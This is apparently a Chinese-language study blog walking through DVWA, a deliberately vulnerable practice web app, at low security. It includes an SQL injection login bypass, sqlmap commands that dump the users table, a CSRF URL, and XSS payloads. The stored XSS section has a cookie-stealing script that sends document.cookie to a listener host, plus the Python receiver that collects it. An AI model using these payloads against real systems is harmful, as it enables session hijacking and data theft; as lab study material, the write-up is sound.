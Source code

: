 ```yaml
---
icon: pen-to-square
date: 2025-03-14
tags: 
title: DVWA
category:
  - 项目
---
```

# 前言
## **set up**
```bash
Downloading DVWA from GitHub...
Cloning into '/var/www/html/DVWA'...
remote: Enumerating objects: 5105, done.
remote: Counting objects: 100% (91/91), done.
remote: Compressing objects: 100% (24/24), done.
remote: Total 5105 (delta 79), reused 67 (delta 67), pack-reused 5014 (from 4)
Receiving objects: 100% (5105/5105), 2.49 MiB | 2.08 MiB/s, done.
Resolving deltas: 100% (2489/2489), done.
MariaDB service is already enabled.
MariaDB service is already running.

Default credentials:
Username: root

Password: [No password just hit Enter]
Enter SQL user: root
Enter SQL password (press Enter for no password):
SQL commands executed successfully.
Configuring DVWA...
Configuring permissions...
Configuring PHP...
Apache service is already enabled.
Restarting Apache...
DVWA has been installed successfully. Access http://localhost/DVWA to get started.
Credentials:
Username: admin
Password: password

With ♡ by IamCarron
root@ubantuu:~# ls
mc  path  vulhub
root@ubantuu:~#

```
docker共享文件夹
```bash
sudo bash -c "$(curl --fail --show-error --silent --location https://raw.githubusercontent.com/IamCarron/DVWA-Script/main/Install-DVWA.sh)"
```
# low
## brute Force
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314193624.png)
这题可以字典攻击
用集群炸弹攻击，会遍历所有排列
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314193938.png)
如果用pitchfork攻击，是这样的排列，按照字典的排列
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194133.png)
简单列表就很奇怪了，只会插入一个payload位置
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194626.png)
碰撞攻击会为每一个payload使用同一个字典
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194822.png)


然后构造字典，实际情况会更复杂，花费的时间也更多
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194045.png)

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314194441.png)
成功的组合长度是不同的
还有sql注入的方面也可以攻破此关
```sql
$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
```
源码的sql逻辑很简单，我们只需要
构建这样的payload即可通过
`user;` admin' or '1='1

## Command Injection
& ：前面一个命令无论是否执行，后面的命令都能执行，两个命令都执行  
- 似乎会同时执行两个命令
&&：前面一个命令执行成功后，才能执行后面一个命令，两个命令都执行  
- 等待前一个命令执行后才会执行下一个命令
|：前面一个命令无论是否执行，后面的命令都能执行且    **只执行后面一个**  

||：前面一个命令不能正常执行后，才能执行后面一个命令

；:跟&&的原理差不多
看看源码
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314200721.png)
可以发现会将"ping"直接拼接到我们的"地址"上
我们可以利用这个进行上面的命令拼接符进行攻击，执行危险操作

=======

## CSRF（跨站请求伪造）
```php
$pass = $_GET[ 'password' ];
```

这是一切问题的根源，这段代码说明了包含修改密码的请求包可以在url中集成，意味着攻击者可以通过这个url构建一个按钮，访问这个页面，在不知不觉中造成密码更改
```url
http://192.168.254.128/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#
```

## File Inclusion
文件包含漏洞，可移植性任意文件，包括服务器本地文件和远程文件
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>


```

file upload
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250314204935.png)
没有对文件做过滤并且会返回文件路径

=======


## # Vulnerability: Insecure CAPTCHA

=======
## SQL Injection (Blind)
^use-sqlmap
先测试正常回显,输入1
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315111850.png)
然后输入-1
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315112001.png)
这里的逻辑
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315112027.png)
返回值不为0(不为false)时才会回显exists
那么很好办了，常规的布尔盲注
测试闭合,1'显示miss，1“显示exists，意味着闭合为'
用length(database())试数据库大小，到4时为正确 ^d5e614
```
1' and length(database())=4 #
```
然后使用sqlmap，注意cookie是这个
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315120605.png)
示例命令
```bash
sqlmap -u "http://192.168.254.128/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=vu5afsp2gm4hnrcib72jbhf2v1; security=low" --current-db
```
注意--cookie的值需要双引号框住[[sql注入#^sqlmap|sqlmap教程]]
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315122048.png)
成功爆库名
继续爆库名
```bash
sqlmap -u "http://192.168.254.128/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=vu5afsp2gm4hnrcib72jbhf2v1; security=low" -D dvwa --tables
```
- `-D`: 指定库名
- 爆表名
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315122434.png)
比刚才快很多
```bash
sqlmap -u "http://192.168.254.128/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=vu5afsp2gm4hnrcib72jbhf2v1; security=low" -D dvwa -T users --dump --batch
```
- --batch:不再询问确认
- --dump：爆数据
- -D dvwa -T users：指定已知数据
还是比较快的
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315123803.png)
成功
## XSS(Reflected)
反射型xss

XSS漏洞的本质在于弹到网页的用户输入的内容，如果没有过滤用javascript闭合就会造成脚本执行，会造成用户信息泄露等危害
验证是否有XSS的实例
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315124529.png)

```html
<script>alert('hack')</script>
```
回显，验证有XSS注入漏洞
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315124722.png)
网页代码中的位置
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315125731.png)


======

----
## XSS(Stored)

```python
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import urlparse, parse_qs
import json
class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_path = urlparse(self.path)
        query_params = parse_qs(parsed_path.query)
        query_params = parse_qs(parsed_path.query)
         # 打印请求信息到控制台
        # print(f"\n[请求路径] {parsed_path.path}")
        # print(f"[查询参数] {json.dumps(query_params, indent=2)}")
        if "cookie" in query_params:
            print(f"已收集到cookie")
            print(f"[Cookie] {query_params['cookie'][0]}"+"\n")
        # print("[请求头]")
        # for header, value in self.headers.items():
        #     print(f"  {header}: {value}")
            # 发送响应
        self.send_response(200)
        self.send_header('Content-Type', 'text/html')
        self.send_header('Content-Length', '0')
        self.end_headers()
if __name__ == '__main__':
    server_address = ('', 7989)
    httpd = HTTPServer(server_address, RequestHandler)
    print("服务器已启动，监听端口 7989...")
    httpd.serve_forever()
```


写了一个简单的发送脚本
```javascript
<script>   var url = 'http://192.168.1.21:14444?cookie=' + encodeURIComponent(document.cookie);   var xhr = new XMLHttpRequest();   xhr.open('GET', url, true);   xhr.send(); </script>
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250317221248.png)

-----

## XSS（DOM）
DOM：DOM（Document Object Model）即文档对象模型，是W3C制定的标准接口规范，是一种处理HTML和XML文件的标准API。DOM提供了对整个文档的访问模型，将文档作为一个树形结构，树的每个结点表示了一个HTML标签或标签内的文本项。DOM树结构精确地描述了HTML文档中标签间的相互关联性。将HTML或XML文档转化为DOM树的过程称为解析(parse)。HTML文档被解析后，转化为DOM树，因此对HTML文档的处理可以通过对DOM树的操作实现。

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250318191921.png)
可以发现url带有default参数，我们可以在这里执行命令

## JavaScript

